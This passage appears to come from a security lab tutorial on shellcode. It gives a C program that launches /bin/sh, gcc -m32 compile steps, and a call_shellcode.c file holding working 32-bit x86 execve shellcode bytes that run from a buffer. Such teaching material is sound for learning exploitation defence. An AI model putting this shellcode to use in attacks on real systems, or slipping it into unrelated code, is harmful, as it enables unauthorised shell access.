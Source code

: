 ```c
// shell.c
#include <stdio.h>
int main() {
	char *name[2];
  	name[0] = "/bin/sh";
  	name[1] = NULL;
  	execve(name[0], name, NULL);
 	return 0;
}
```

Remember that this code is using the x86 gcc lib, so if you want to complie on the 64 bit system, you have to use `-m32` option while use `gcc`. At the first time using this, it is necessary to install some lib.

```shell
# for c file
$ sudo apt-get install gcc-multilib
# for c++ file
$ sudo apt-get install g++-multilib
```

After install `multilib`, we can use the following instruction to compile and run the code.

```shell
$ gcc -m32 -o shell shell.c
$ ./shell
$ 
```

When we run the shell file, we actually execute the /bin/sh shell code, and enter to the shell interface. We can enter into the shell interface by another approach which run the code in the stack.

Here we create a file named *call_shellcode.c*, and this is its content.

```c
/* call_shellcode.c  */
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  	"\x31\xc0"             /* xorl    %eax,%eax              */
  	"\x50"                 /* pushl   %eax                   */
  	"\x68""//sh"           /* pushl   $0x68732f2f            */
  	"\x68""/bin"           /* pushl   $0x6e69622f            */
  	"\x89\xe3"             /* movl    %esp,%ebx              */
  	"\x50"                 /* pushl   %eax                   */
  	"\x53"                 /* pushl   %ebx                   */
  	"\x89\xe1"             /* movl    %esp,%ecx              */
  	"\x99"                 /* cdq                            */
  	"\xb0\x0b"             /* movb    $0x0b,%al              */
  	"\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
  	 char buf[sizeof(code)];
  	 strcpy(buf, code);
  	 (*(void(*)( ))code)( );
} 
```
